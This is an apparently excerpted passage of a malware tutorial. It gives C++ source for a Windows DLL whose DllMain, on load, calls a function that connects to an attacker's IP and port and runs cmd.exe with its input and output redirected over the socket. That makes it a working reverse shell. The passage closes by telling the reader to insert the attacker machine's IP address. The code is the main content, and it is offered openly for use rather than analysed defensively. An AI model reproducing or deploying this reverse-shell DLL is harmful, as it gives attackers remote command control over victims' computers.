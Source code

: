 ```cpp
    // create socket object
    sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

    addr.sin_family = AF_INET;
    addr.sin_port = htons(attackerPort);
    addr.sin_addr.s_addr = inet_addr(attackerIP);

    // establish connection to the remote host
    WSAConnect(sock, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL, NULL, NULL);

    memset(&si, 0, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE) sock;

    // initiate cmd.exe with redirected streams
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

    return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Just use my attacker's machine IP address here:    

![malware](/assets/images/177/2025-09-17_01-29.png){:class="img-responsive"}    
